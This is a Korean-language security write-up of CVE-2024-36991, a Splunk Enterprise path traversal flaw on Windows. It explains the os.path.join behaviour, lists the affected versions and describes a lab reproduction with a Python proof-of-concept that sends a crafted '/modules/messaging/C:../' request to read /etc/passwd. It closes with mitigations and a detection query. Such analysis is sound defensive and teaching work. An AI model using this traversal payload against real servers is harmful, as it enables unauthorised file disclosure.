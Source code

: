 ```yaml
---
layout: default
title: cve-2024-36991
category: "etc"
nav_order: 4
parent: cve
---
```


# cve-2024-36991
{: .no_toc }

Splunk Enterprise Path Traversal 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Splunk][Splunk]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[PoC][PoC]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Splunk의 /modules/messaging/ 엔드포인트에서 발생하는 경로 탐색(Path Traversal) 취약점

## 1.2 취약 대상
- Windows 환경에서 동작하는 Splunk Enterprise에서 다음 버전이 영향
- Splunk Enterprise 9.2.0 ~ 9.2.1
- Splunk Enterprise 9.2.2
- Splunk Enterprise 9.1.0 ~ 9.1.4
- Splunk Enterprise 9.1.5
- Splunk Enterprise 9.0.0 ~ 9.0.9
- Splunk Enterprise 9.0.10

## 1.3 공격 원리
- 취약점은 /modules/messaging/ 엔드포인트에 조작된 경로를 포함한 url을 요청
- Splunk Web은 해당 경로를 os.path.join[주1] 함수를 사용하여 결합 
- Winodws 환경에서는 중복된 드라이브 문자가 제거되는 특성을 이용
- 공격자는 이 취약점을 악용하여 민감한 파일에 접근하여 정보를 탈취

![](../../assets/images/cve-2024-36991/1.png)

---

## 1.4 Splunk의 취약한 설정 분석
- CVE-2024-36991의 취약점이 존재하는 환경은 다음과 같은 조건을 만족
- Splunk Web 활성화, Windows 환경에서 동작, modules/messaging 엔드포인트가 open
- 이러한 조건을 갖춘 환경에서는, 공격자가 조작된 URL을 통해 경로 탐색(Path Traversal) 공격 가능 

<br>

- 이 취약점은 Splunk Web이 활성화된 인스턴스에서 발생
- Splunk Web의 설정 파일(web.conf)에서 startwebserver 옵션을 1로 설정하여 취약한 환경 구현

![](../../assets/images/cve-2024-36991/2.png)

<br> 

- Windows환경에서 os.path.join() 함수가 어떻게 작동하는지 확인
- Splunk의 /modules/messaging/ 엔드포인트는 파일을 불러올 때 사용자가 입력한 경로를 합쳐 처리
- 정상적인 경우, os.path.join()은 경로를 연결 (C:\Program Files\Splunk\data\logs\test.log)

 ![](../../assets/images/cve-2024-36991/3.png)

 <br>

- 비정상적인 경우, 공격자가 새로운 “C:\\” 경로를 추가
- “C:\\”(드라이브 문자가 다시 등장하는 경우) 이후의 값을 기준으로 새로운 경로를 생성
- 결과적으로 기본 경로가 무시되고 공격자가 원하는 파일로 접근(C:\\SKT\\Infra보안\\skt_nsc.excel)

![](../../assets/images/cve-2024-36991/4.png)

---

## 1.5 환경 구성
- Victim: Windows10 (IP: 192.168.253.123)
- Attacker: Windows10 (IP: 192.168.253.77)

<br>

- 취약한 Splunk 서버 환경 구축 (Splunk Enterprise 9.1.2)
- 취약점이 존재하는 Splunk Enterprise 9.1.2 서버 구축

![](../../assets/images/cve-2024-36991/5.png)

---

## 1.6 공격 재현
- Python을 이용한 조작된 GET 요청을 통한 Splunk 서버 공격
- 조작된 경로 생성 (“/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd”)
- 조작된 GET 요청을 서버로 전송하고, 응답에서 /etc/passwd 파일 노출 확인

```py
url = "http://192.168.253.123:8000"
attack_url = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
def attack_request(url):
    try:
        fullurl = f"{url}{attack_url}" # 조작된 경로를 포함한 URL 생성
        response = requests.get(fullurl, verify=False)
        if response.status_code == 200:
            body = requests.text
            # 응답에서 'admin:' 문자열이 포함되면 출력
            if body is not None and 'admin:' in body:
                print_message('vulnerable', f"Vulnerable: {url}")
                print(body) # 서버에서 응답받은 파일 내용 출력
        else:
            print_message("warning", f"Not Vulnerable: {url}")
            return response.text 
    except requests.RequestException:
        return None
```

<br>

- 실제 /etc/passwd 파일은 아래와 같음

![](../../assets/images/cve-2024-36991/6.png)

<br>

- 공격 실행 결과, 서버에서 /etc/passwd 파일의 실제 내용이 성공적으로 출력

![](../../assets/images/cve-2024-36991/7.png)

<br>

- Burp Suite를 사용하여 실제 페이로드의 응답을 확인한 결과, /etc/passwd 파일의 내용이 포함

![](../../assets/images/cve-2024-36991/8.png)

---

## 1.7 대응 방안
- Splunk Enterprise 버전 9.2.1 이상으로 업데이트
- Splunk Web 비활성화
- Splunk /modules/messaging/ 경로 탐색(Path Traversal) 공격 탐지 쿼리

```spl
`splunkd_web` method=GET uri_path="/*/modules/messaging/*..*" 
| stats min(_time) as firstTime max(_time) as lastTime values(method) as method values(uri_path) as uri_path by host 
| `security_content_ctime(firstTime)` 
| `security_content_ctime(lastTime)` 
| `splunk_unauthenticated_path_traversal_modules_messaging_filter`
```

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/cve-2024-36991
[Splunk]: https://advisory.splunk.com/advisories/SVD-2024-0711
[PoC]: https://github.com/bigb0x/CVE-2024-36991
